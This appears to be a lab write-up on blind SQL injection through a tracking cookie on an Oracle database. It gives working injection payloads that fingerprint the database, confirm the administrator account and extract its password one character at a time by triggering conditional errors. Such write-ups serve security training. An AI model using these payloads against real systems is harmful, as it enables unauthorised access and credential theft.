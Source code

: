 **<h2>Background Conditional Error Responses</h2>**
Some applications carry out SQL queries but their behavior doesn't change, regardless of whether the query returns any data. <br>
It's often possible to induce the application to return a different response depending on whether a SQL error occurs. We can modify the query so that it causes a database error only if the condition is true. Very often, an unhandled error thrown by the database causes some difference in the application's response, such as an error message. This enables us to infer the truth of the injected condition. 

**<h2>Problem</h2>**
The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows. If the SQL query causes an error, then the application returns a custom error message. 

**<h2>Solution:</h2>**
- Check if tracking id shows any response for true and false condition, it shows no response for any conditions, but for incorrect syntax it shows error message ; ``Yolb'`` a single quote showed error while closing single quote with another single quote worked fine.
- Check if the error is actually caused by syntax error using subquery, ``' || (select '' ) ||'`` ; this caused error we confirm the database isn't mySQl
- Check with ``' || (select '' from dual ) ||'`` for oracle database; which did not give any error.
- Now check if the users table exists using ``' || (select '' from users where rownum=1 ) ||'`` we used rownum=1 parameter to only output ``''`` in first user from user table, ie if users table has 5 users ``''`` will be outputted in 5 different rows. The users table exists.
- Check if administrator user exists in users table using ``' || (select '' from users where username='administrator') ||' `` which does not produce error but it does not produce error for invalid user as well.
- For this we need `case`  syntax
`' || (select case when(1=0) then to_char(1/0) else '' end from dual)  ||'`  
    - there is a case which is FALSE already so it goes to else part and outputs empty string and we do not get error
    - if there was  `case when(1=1)` then `to_char(1/0)` would run which is false so it will give error

- Now to confirm admin user exists; ``' ||( select case when(1=1) then to_char(1/0) else '' end from users where username='administrator' )||'`` 
    - from clause if evaluated before select clause so if users table has username administrator then it will perform select part which would run true case and give us error.
    - when we gave invalid user that didn’t exist in the database select case was not performed so it didnot give any error

![alt text](/images/lab12adminexist.png)

- Determine length of password using `` ' ||( select case when(1=1) then to_char(1/0) else '' end from users where username='administrator' and length(password)>1)||'`` and use intruder to find the actual length of password So length of password is 20.
![alt text](/images/lab12intruderoutput.png)
- Now we find the password of the administrator user using ``' || (select case when(1=1) then to_char(1/0) else '' end from users where username='administrator' and substr(password,1,1)='a')  ||'`` use cluster bomb to get password for each positions 
![alt text](/images/lab12password.png)
- login with password to solve lab
